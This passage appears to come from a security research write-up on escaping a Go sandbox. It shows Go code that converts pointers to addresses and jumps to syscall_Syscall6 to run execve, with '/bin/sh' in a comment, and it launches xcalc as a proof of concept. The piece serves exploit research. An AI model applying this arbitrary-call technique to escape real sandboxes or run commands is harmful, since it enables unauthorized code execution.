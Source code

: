At this point, we built the above snippet and looked at the binary we got.
The binary has no imports at all, so we started looking for a function that could let us spawn a new process.
After a short inspection, we found the `syscall_Syscall6` function, it lets you run a syscall with 6 arguments.
We tested and found we simply jump to that address and it will stay the same in each build (that's good news!)
It is possible to pass arguments to our arbitrary address by changing the `unsafe` implementation:
```Golang
func (u *unsafe) X() bool {
    if u.f != nil {
        // syscall(NR_execve, "/bin/sh", argv, environ)
        u.f(59, uintptr(address(bin_sh_slice)), uintptr(address(argv)),
            uintptr(address(env)))
    }

    return false
}
```

Next, we created a function that gets a type and returns its pointer. We did that using printf with `%p` which returns a string representation of the pointer and then we converted it to uint64.
```Golang
func address(i interface{}) uint64 {
    ptr_str := fmt.Sprintf("%p", i)
    fmt.Printf("%v\n", ptr_str)

    var val uint64

    for i := 2; i < len(ptr_str); i++ {
        fmt.Printf("%v, %c\n", i, ptr_str[i])
        val *= 0x10
        if '0' <= ptr_str[i] && ptr_str[i] <= '9' {
            cur_digit := ptr_str[i] - '0'
            val += uint64(cur_digit)
        } else {
            cur_digit := ptr_str[i] - 'a' + 10
            val += uint64(cur_digit)
        }
    }

    return val
}
```

Our next move was to call the static address that will be generated for `syscall_Syscall6` with `__NR_execve` and the correct parameters to execute `xcalc`.
Also, we had to make a function that can retrieve the address of the strings to pass it to `execve`.
```Golang
func main() {
    argv = make([]uintptr, 5)

    bin_sh_slice = make([]uint8, 20)
    shell := "/usr/bin/xcalc"
    for v := 0; v < len(shell); v++ {
        bin_sh_slice[v] = uint8(shell[v])
    }
    // ...
}
```
Since we ran on from bash we had to add the env `DISPLAY=0.0` to make `xcalc` pop.
```Golang
func main() {
    // ...
    argv[0] = uintptr(address(bin_sh_slice))
```